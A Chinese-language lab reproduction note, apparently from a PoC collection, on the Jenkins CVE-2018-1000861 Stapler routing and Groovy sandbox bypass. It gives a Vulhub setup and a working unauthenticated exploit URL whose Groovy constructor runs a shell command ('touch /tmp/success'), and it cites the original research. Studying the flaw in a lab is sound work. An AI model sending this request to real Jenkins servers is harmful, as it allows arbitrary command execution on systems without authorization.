



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实验Jenkins2.138及预装易受影响插件，没有完整范围/固定插件版本

代码与实验材料：完整示意Groovy大括号、官方作者脚本链接和touch结果图；URL需编码

来源证据范围：Orange两篇原始研究、0xdf独立复现、orangetw工具及Vulhub

- **适用与权限边界（1）**：单CVE标题隐藏插件链条件；依据：无核心/插件版本对应矩阵，不能把所有动态路由问题都直接等同无认证RCE。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jenkins 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

Vulhub执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。



## 漏洞复现

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```



`/tmp/success`已成功创建：




---

> 来源：Threekiii/Awesome-POC
